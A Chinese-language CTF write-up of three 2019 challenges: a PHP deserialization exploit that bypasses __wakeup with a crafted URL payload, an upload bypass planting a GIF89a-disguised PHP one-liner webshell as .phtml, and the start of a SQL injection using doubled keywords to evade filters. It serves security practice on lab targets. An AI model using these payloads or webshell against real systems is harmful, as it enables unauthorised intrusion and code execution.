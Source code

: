 ```php
index.php
<?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);//对$select进行反序列化
?>
```

编写exp

```php
<?php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
//这里要注意private序列化的格式，运行结果的空格其实是%00(空字符的url编码)，空格则是%20
    
    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
}
    $a = new Name('admin', '100');
	echo var_dump(serialize($a));
//这里结果进行url编码，且把Name后面的2改为3，让属性个数的值大于真实属性个数，从而绕过__wakeup()
?>
```

最终`paylaod：url/index.php?select=O:4:%22Name%22:3:{s:14:%22%00Name%00username%22;s:5:%22admin%22;s:14:%22%00Name%00password%22;s:3:"100";}`

# [极客大挑战 2019]Upload

文件上传，先传一个一句话木马的php文件，无法上传，回显为“Not image!”，说明要图片类型的文件，把后缀改为`.jpg`(此时`Content-Type: image/jpeg`)，还是无法上传，回显为“NO! HACKER! your file included '<?'”，它过滤了php代码标志，那就进行绕过，`<script language=php>eval($_POST['cmd']);</script>`，竟然还是无法上传成功，回显为“Don't lie to me, it's not image at all!!!”，这里应该检测了文件头，那就利用`GIF89a`图片欺诈文件，上传成功

```php
GIF89a
<script language=php>eval($_POST['cmd']);</script>
```

但是因为jpg文件不能运行代码，所以我们要修改后缀，保持`Content-Type: image/jpeg`，改为`.phtml`(phtml一般是指嵌入了php代码的html文件，但是同样也会作为php解析)，下一步就是要知道文件上传的路径，查看源码没什么发现，一般默认上传的文件会保存在`upload`文件下，于是蚁剑直连`url/upload/文件名`，最后在根目录下拿到flag

# [极客大挑战 2019]BabySQL

如之前一样尝试`username=admin' or 1=1#`，但报错了，根据报错结果，说明过滤了`or`，双写能成功登录，猜测后端代码存在类似替换函数，成功登录后，接下来应该是基础的爆库，表，列的操作，但`union`，`select`都被过滤了，双写同样能绕过。

爆库名，库名为"geek"
